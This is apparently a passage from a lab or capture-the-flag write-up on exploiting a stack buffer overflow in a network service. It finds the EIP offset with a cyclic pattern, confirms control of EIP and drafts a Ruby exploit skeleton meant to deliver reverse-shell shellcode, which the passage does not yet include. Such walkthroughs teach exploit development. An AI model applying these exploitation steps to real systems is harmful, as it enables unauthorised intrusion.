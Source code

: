 i'll paste this string (200 characters long) into the pry:

```ruby
pry --simple-prompt
>> require "socket"
>> s=TCPSocket.new("192.168.100.4",31337)
>> s.puts "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"
```

![EIP](/gatekeeper_EIP.png)

the EIP is pointed at 39654138. i can use this to find the offset:
```
msf-pattern_offset -l 2500 -q 39654138

exact match at offset 146
```

to verify this offset value, i'll create an input that will enter A for the first 146 bytes, and then B for the next 4. 

```ruby
pry --simple-prompt
>> require "socket"
>> s=TCPSocket.new("192.168.100.4",31337)
>> s.puts "A"*146+"B"*4
```
![B](/gatekeeper_B.png)

the EIP is now overwritten with "42424242", which is "BBBB" in hex.


so, i know the program is exploitable, along with the EIP offset value. i can now write the proof-of-concept of my exploit. what i'm trying to do is not simply crash the program, but inject a payload ("shellcode") that will spawn a reverse shell that i can then use to further exploit the target machine. the skeleton of the script, called **bof.rb**, looks as follows:

```ruby
buff = "\x90"*146 #NOP slide, forces the program to start right after the offset.
buff+= "" #JMP ESP
buff+= "B"*10 #additional nops for argument values
buff+= "" #shellcode

require 'socket'
TCPSocket.open("<targetIP",31337){ |s| s.puts buff}
```

the ESP register is the stack pointer, which will execute the contents of the stack. now that i have control of the EIP register, i need it to somehow point to the ESP. this is where JMP ESP comes in. JMP ESP basically jumps to the desired ESP. 

the shellcode section is where my payload will go. before i create a payload, i need to find the "bad characters". certain byte characters cause issues in exploit development. a couple common bad characters are x00 (null byte: truncates the shellcode when executed) and x0a (carriage return). to find all possible bad characters, i'll just write a list of all hex characters (excluding x00 and x0a).
